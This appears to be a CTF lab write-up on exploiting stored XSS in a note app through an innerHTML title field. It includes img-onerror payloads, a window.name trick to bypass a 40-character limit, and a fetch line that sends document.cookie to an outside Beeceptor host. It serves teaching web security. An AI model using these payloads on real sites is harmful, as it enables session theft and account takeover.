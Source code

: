 ```yaml
---
title: Simple Web - 0x09(Lab - Simple Note)
tags: [CTF, Web, eductf]

---
```


# Simple Web - 0x09(Lab - Simple Note)
###### tags: `CTF` `Web` `eductf`
Challenge: https://note.ctf.zoolab.org/

## Background
[](https://www.wibibi.com/info.php?tid=402)

## Source Code
```javascript!
...
<script>
    const id = location.pathname.split('/').pop();

    fetch(`/api/note/${id}`).then(r => r.json()).then(({ title, content })=>{
        url.value = location;
        titleNode.innerHTML = title;
        contentNode.innerText = content;
    });   
</script>
...
```
For instance, if our `$id=47a8aad1b3b82dcd4decd36d`, the `script code` will fetch this data as `json` file and parse title and content.
![](https://i.imgur.com/Nwj6gCQ.png)
Then it'll change `titleNode` by `innerHTML` and change `contentNode` by `innerText`.
![](https://i.imgur.com/H8VdiIb.png)

### `innerText` VS `innerHTML`
`innerText` will filter tag but `innerHTML` will not.
For instance, `title=123` and `content=<script>123</script>`
![](https://i.imgur.com/eoXQYv5.png)


For instance, `title=<script>123</script>` and `content=123`
![](https://i.imgur.com/lGgpgQi.png)

### Analysis
According to the response, it seems has no filter of our input, so, we can choose to inject something in <font color="FF0000">`titleNode`</font>
![](https://i.imgur.com/5lNfsqw.png)


## Exploit - XSS
1. We tried to inject `<script>` tag in title but has nothing to trigger.
According to [javascript documentation](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations)
    > It is not uncommon to see innerHTML used to insert text into a web page. There is potential for this to become an attack vector on a site, creating a potential security risk. 
    > Although this may look like a cross-site scripting attack, the result is harmless. HTML specifies that a \<script\> tag inserted with innerHTML should not execute.

    > However, there are ways to execute JavaScript without using \<script\> elements, so there is still a security risk whenever you use innerHTML to set strings over which you have no control. For example: 
    
    ```javascript!
    const name = "<img src='x' onerror='fetch()'>";
    el.innerHTML = name; // shows the alert
    ```

2. Use `img` tag
Payload: `<img src='x' onerror='alert(1)'>`
![](https://i.imgur.com/01YmwNW.png)

3. String limit problem...
There's something wrong, that the title has input limit with 40 character at most. So, we can use `window.name` technique that we can write our payload as long as we can.
If we set:
    ```javascript!
    top.name = 'fetch("https://sbk6401.free.beeceptor.com?sh="+document.cookie)'
    ```
    Furthermore, we set our title as:<font color="FF0000">`<img src=x onerror=eval(window.name)>`</font>

    Then if we reload this page, it'll execute the command in `top.name`
    ![](https://i.imgur.com/B8aRmbN.png)

4. Host a server by `Beeceptor`
Note that, you should change `Content-Type` to `text/html`
![](https://i.imgur.com/eg4UUpl.png)
Then we can change the Report URL as what we set in `Beeceptor`
![](https://i.imgur.com/fVTg6oI.png)

5. Detail about workflow
    ```flow
    st=>start: Start
    e=>end: get flag in Beeceptor
    op=>operation: Set title to <img src=x onerror=eval(top.name)>
    io=>inputoutput: Click Report
    op2=>operation: Set URL as  https://sbk6401.free.beeceptor.com 
    op3=>operation: Execute our script that set in beeceptor
    op4=>operation: Set top.name as our payload
    op5=>operation: redirect to https://note.ctf.zoolab.org/note/fafe93de9467a6022fb8cb19
    op6=>operation: eval(top.name)


    st->op->io->op2->op3->op4->op5->op6->e
    ```

## Reference
[在XSS测试中如何绕过字符长度限制](https://zhuanlan.zhihu.com/p/93192936)
